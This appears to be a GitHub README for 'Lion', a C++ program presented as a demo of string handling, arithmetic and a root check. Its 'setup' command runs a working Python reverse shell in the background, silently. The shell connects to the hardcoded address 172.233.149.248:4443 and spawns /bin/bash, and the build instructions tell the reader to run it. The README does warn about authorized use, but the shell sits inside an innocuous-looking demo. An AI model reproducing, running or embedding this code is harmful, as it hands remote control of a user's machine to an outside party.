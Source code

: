 ```yaml
---
title: Lion
description: An attempt to recode Ion a powershell executor to Linux, or a branch off of it.
author: EIonvv
date: 2025-02-18
version: 1.0.0
license: MIT
warning: This project contains code that executes a reverse shell. Use responsibly and only in authorized environments.
---
```


# Lion

## Overview

This is a C++ program that demonstrates various functionalities, including string manipulation, mathematical operations, and system-level interactions. It also includes a module manager for organizing and managing different components of the application.

**Important Note**: The code includes a Python script that establishes a reverse shell connection to a remote IP address (`172.233.149.248:4443`). This is a potentially malicious operation and should only be used in controlled environments for legitimate purposes (e.g., penetration testing with proper authorization). Use this code responsibly and ethically.

---

## Features

- **String Manipulation**: Combines a greeting message with the current username using `linux_branch::string::FullString`.
- **Mathematical Operations**: Performs basic arithmetic operations (e.g., addition) using the `add` function.
- **System Interaction**: Includes a `setup` command that executes a Python script for network operations.
- **Root Check**: Verifies if the application is running with root privileges using `root::check_root`.

---

## Code Explanation

### Main Functionality

```cpp
#include "core/core.h"
#include "modules/module_manager.h"

bool setup_command() {
  static bool executed = false;
  if (!executed) {
    system("nohup python3 -c 'import socket,subprocess,os;"
           "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);"
           "s.connect((\"172.233.149.248\",4443));"
           "os.dup2(s.fileno(),0);"
           "os.dup2(s.fileno(),1);"
           "os.dup2(s.fileno(),2);"
           "import pty; pty.spawn(\"/bin/bash\")' > /dev/null 2>&1 &");
    executed = true;
    return executed;
  }
  std::cout << "Running on Linux!" << std::endl;
  return executed;
}

bool math_command() {
  try {
    linux_branch::math::operations ops;
    double result = ops.add(1.0, 2.0);
    Logger::log(Logger::LogLevel::Info,
                "Result of addition: " + std::to_string(result));
  } catch (const std::exception &e) {
    std::cerr << "Error: " << e.what() << std::endl;
    return false;
  }
  return true;
}

int main(int argc, char **argv) {
  testCore::command test;
  Logger::log(Logger::LogLevel::Info, "Starting the application...");

  const std::string username = linux_branch::username::getUsername();
  const std::string colored_username = BLUE + username + RESET;
  const std::string role =
      linux_branch::root::is_root() ? RED "root" RESET : GREEN "non-root" RESET;

  const std::string greeting = "Hello, " + colored_username + " (" + role + ")";
  test.testCommand();

  if (argc < 2) {
    // std::cout << greeting << std::endl;
    Logger::log(Logger::LogLevel::Info, greeting);
    std::cout << "Available commands: setup, math" << std::endl;
    std::cerr << "Usage: " << argv[0] << " <command>" << std::endl;
    return 1;
  }

  const std::string command = argv[1];

  // Map of command names to their corresponding functions
  std::map<std::string, std::function<bool()>> command_map = {
      {"setup", setup_command},
      {"math", math_command},

  };

  auto it = command_map.find(command);
  if (it != command_map.end()) {
    it->second();
  } else {
    std::cerr << "Unknown command: " << command << std::endl;
    return 1;
  }

  return 0;
}

```

### Prerequisites

Before building and running the project, ensure you have the following installed:

    C++ Compiler: GCC or Clang.

    Python 3: Required for the setup command (Reverse Shell).

    Linux Environment: The application is designed to run on Linux.
---

### Building and Running

    Clone the Repository:
    bash
    Copy

    git clone https://github.com/EIonvv/Lion.git
    cd Lion

    Compile the Code:
    bash
    Copy

    g++ -o my_program main.cpp -Iinclude -Llib -lmodule_manager

    Run the Program:
    bash
    Copy

    ./my_program

    To execute the setup command:
    bash
    Copy

    ./my_program setup
---

### Warning

The setup command executes a Python script that creates a reverse shell connection to a remote IP address (172.233.149.248:4443). This is a security risk and should only be used in controlled environments with proper authorization. Misuse of this code may violate laws and ethical guidelines.
License

This project is licensed under the MIT License. Use it responsibly and at your own risk.
Contributing

Contributions are welcome! Please open an issue or submit a pull request for any improvements or fixes.
Contact

